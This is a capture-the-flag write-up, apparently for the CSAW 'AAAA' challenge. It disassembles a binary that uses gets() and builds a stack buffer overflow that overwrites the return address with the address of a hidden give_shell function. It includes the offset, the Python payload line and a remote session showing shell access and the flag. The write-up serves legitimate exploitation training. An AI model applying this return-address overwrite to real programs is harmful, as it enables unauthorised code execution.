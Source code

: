 # Description #
AAAA
50

Why is everyone around me screaming about flow?

nc pwn.chal.csaw.io 10101

# Running the binary #
This binary received some user input and printed on screen the same input ...

```
./buff
What is your favorite thing ?

lots of bugs
I like, lots of bugs too!!!
```

# Analyzing the binary #
Checking the binary with radare2 allowed us to confirm that there was a function called give\_shell that
spawns a shell ...

```
[0x004005f6]> afl
0x00400470    3 26           sym._init
0x004004a0    1 6            sym.imp.puts
0x004004b0    1 6            sym.imp.system
0x004004c0    1 6            sym.imp.printf
0x004004d0    1 6            sym.imp.__libc_start_main
0x004004e0    1 6            sym.imp.gets
0x004004f0    1 6            sub.__gmon_start_4f0
0x00400500    1 41           entry0
0x00400530    4 50   -> 41   sym.deregister_tm_clones
0x00400570    3 53           sym.register_tm_clones
0x004005b0    3 28           sym.__do_global_dtors_aux
0x004005d0    4 38   -> 35   entry1.init
0x004005f6    1 17           sym.give_shell
0x00400607    1 71           sym.main
0x00400650    4 101          sym.__libc_csu_init
0x004006c0    1 2            sym.__libc_csu_fini
0x004006c4    1 9            sym._fini
```

```
[0x004005f6]> pdf
(fcn) sym.give_shell 17
sym.give_shell ();
0x004005f6      55             push rbp
0x004005f7      4889e5         mov rbp, rsp
0x004005fa      bfd8064000     mov edi, str.bin_sh ; 0x4006d8 ; "/bin/sh" ; const char *string
0x004005ff      e8acfeffff     call sym.imp.system ; int system(const char *string)
0x00400604      90             nop
0x00400605      5d             pop rbp
0x00400606      c3             ret
```

But if we check closely the main function, there is no direct path to reach the function give\_me shell,
after getting our input (**gets**) is printed with **printf** at 0x00400642 the binary ends its execution.

```asm
0x00400607      55             push rbp
0x00400608      4889e5         mov rbp, rsp
0x0040060b      4883ec60       sub rsp, 0x60                        
0x0040060f      897dac         mov dword [local_54h], edi           
0x00400612      488975a0       mov qword [local_60h], rsi           
0x00400616      bfe0064000     mov edi, str.What_is_your_favorite_thing 
0x0040061b      e880feffff     call sym.imp.puts                    
0x00400620      488d45b0       lea rax, [s]
0x00400624      4889c7         mov rdi, rax                         
0x00400627      b800000000     mov eax, 0
0x0040062c      e8affeffff     call sym.imp.gets                    
0x00400631      488d45b0       lea rax, [s]
0x00400635      4889c6         mov rsi, rax
0x00400638      bf00074000     mov edi, str.I_like___s_too          
0x0040063d      b800000000     mov eax, 0
0x00400642      e879feffff     call sym.imp.printf                  
0x00400647      b800000000     mov eax, 0
0x0040064c      c9             leave
0x0040064d      c3             ret
```

It seems that in this challenge we have to overwrite the ret value stored in the stack, but lets
debug the binary to test this.

# Debugging the binary #
We started by sending a buffer of 128 bytes as our input, we also set a breakpoint at address
0x00400631 to check if we were able to overwrite a ret value in the stack ...

```
sendline(cyclic(128,n=8))
```

As we can see in the image below, we were able to overwrite a ret value in the stack
with the value 0x616161616161616c ...

![rip](./imgs/savedrip.png)

We found that the offset required to overwrite the first saved ret value in the stack was 88 bytes ...

```
>>> cyclic_find(0x616161616161616c, n=8)
88
```

We created a buffer with 88 bytes and at the end we added the address for the give\_shell
function (0x004005f6), since PIE and Canary protections were not enabled we could hardcode this value ...

```
gef➤  checksec
[+] checksec for '/home/foobar/ctf/csawrt-18/pwning/AAAA/buff'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

Our buffer ended up like this ...

```python
buf = "\x41" * 88 + p64(0x004005f6)
sendline(buf)
```

After sending our buffer, we verified that we were able to overwrite the return address with the
address of the give\_shell function (0x004005f6)...

```
gef➤  i frame
Stack level 0, frame at 0x7ffd23460510:
 rip = 0x400631 in main; saved rip = 0x4005f6
 Arglist at 0x7ffd23460500, args:
 Locals at 0x7ffd23460500, Previous frame's sp is 0x7ffd23460510
 Saved registers:
  rbp at 0x7ffd23460500, rip at 0x7ffd23460508
```

After continuing the execution flow, we could verify that after taking the ret, we continued the execution
flow in the give\_shell function ...

![giveshell](./imgs/giveshell.png)

Once we were able to divert the execution flow, we were ready to get our flag ...

# Getting the flag #

```
python exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 10101: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
    _        _        _        _        _
   / \      / \      / \      / \      / \
  / _ \    / _ \    / _ \    / _ \    / _ \
 / ___ \  / ___ \  / ___ \  / ___ \  / ___ \
/_/   \_\/_/   \_\/_/   \_\/_/   \_\/_/   \_\
*************************************************
What is your favorite thing ?

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAö^@^@^@^@^@
I like, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAöoo!!!  ls
ls
art.txt  buff  flag.txt  run.sh
$ cat flag.txt
cat flag.txt
flag{0000oooo[EDITED]}
```

